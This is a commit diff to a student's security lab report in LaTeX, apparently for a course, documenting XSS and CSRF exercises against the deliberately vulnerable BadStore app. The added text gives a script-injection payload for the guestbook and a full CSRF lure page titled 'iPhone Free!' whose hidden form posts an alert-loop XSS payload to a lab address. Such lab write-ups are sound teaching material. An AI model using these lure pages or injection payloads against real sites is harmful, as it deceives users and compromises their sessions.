

Before and after one commit to LazyClutch/Lab1--Security, a LaTeX document (Lab1report.tex, which reads task2.tex): part of page 1 of 2 before the commit and two parts of pages 1 and 2 of 4 after it, the two joined at a grey line, cut so that both start at the same text, the shorter picture padded with empty space. Compiled offline with pdfLaTeX.

Commit message:
Finish Task 2(a)(b)

```diff
--- a/Lab1report.tex
+++ b/Lab1report.tex
@@ -13,12 +13,16 @@
 % \autoref{labelName}
 \usepackage{hyperref}
 
+% Enable to insert images
+\usepackage{graphicx}
+
 % The listings package is useful for including source code in the report.
 % It provides (among other things):
 %   * lstlisting environment for listing code directly
 %   * lstinputlistings command for listing code from a file
 %   * lstinline command for code appearing in the middle of a sentence
 \usepackage{listings}
+\usepackage{xcolor}
 
 % Increases the chance that things will fit on a line properly :)
 \usepackage{fullpage}
--- a/task2.tex
+++ b/task2.tex
@@ -1,5 +1,40 @@
 \section*{Task 2: XSS and CSRF}
 \subsection*{Exercises:}
 \begin{enumerate}
-\item
-\item
+\item The steps are as follows:
+	\begin{itemize}
+		\item Open BadStore in your browser.
+		\item Click "Sign Our GuestBook" on the left side of the page.
+		\item In the "Your Name" field, type whatever you want.
+		\item In the "Email" field, type whatever you want.
+		\item In the "Comments" field, type \textit{<script>alert("1")</script>} .
+		\item Click "Add Entry", the page should like this below:
+		\par
+		\begin{center}\includegraphics[height=2.5in]{xss}
+		\end{center}
+	\end{itemize}
+	\indent Explanation: In the example, we write a piece of Javascript code in the comment area and submit it. It can work because the website has XSS vulnerability which enable us to insert and perform Javascript in the website. When it reloads, it will generate the current HTML code which contains the code we just injected. And it works as a result.
+	\item To perform CSRF attacks, we need to create a custom web page contains deceived information. The function is to let user comment in the guestbook and receive countless alert. The key point is to guide victim to visit your page and click on the information. As the reason that we demonstrate it just as an example, we can  suppose that the victim will click it. Below are the steps:
+	\begin{itemize}
+		\item Write a simple page containing these code:
+		\par
+		\begin{lstlisting}[language=HTML,numbers=left,numberstyle=\tiny,columns=fullflexible,basicstyle=\footnotesize\ttfamily]
+<!DOCTYPE html>
+<html>
+<head>
+	<title>iPhone Free!</title>
+</head>
+<body>
+	<FORM METHOD="POST" ACTION="http://10.0.2.5/cgi-bin/badstore.cgi?action=doguestbook">
+		<INPUT TYPE=hidden NAME=name value="<script>for(var i=0;i<10000;i++){alert();}</script>" SIZE=30>
+		<INPUT TYPE=hidden NAME=email value="1" SIZE=40>
+		<TEXTAREA style="display:none" NAME=comments COLS=60 ROWS=4 value="aaa"> </TEXTAREA>
+		<INPUT TYPE=submit VALUE="Get Now!">
+		<INPUT style="display:none" TYPE=reset></Center>
+	</FORM>
+</body>
+</html>
+
+		\end{lstlisting}
+	\item The page shows like this:
+	\begin{center}\includegraphics[height=2.5in]{csrf1}
```
Also changed, not shown: Lab1report.pdf (added), csrf1.eps (added), csrf1.png (added), csrf2.eps (added), csrf2.png (added), xss.eps (added), xss.png (added), task2.tex (10 more changed lines).
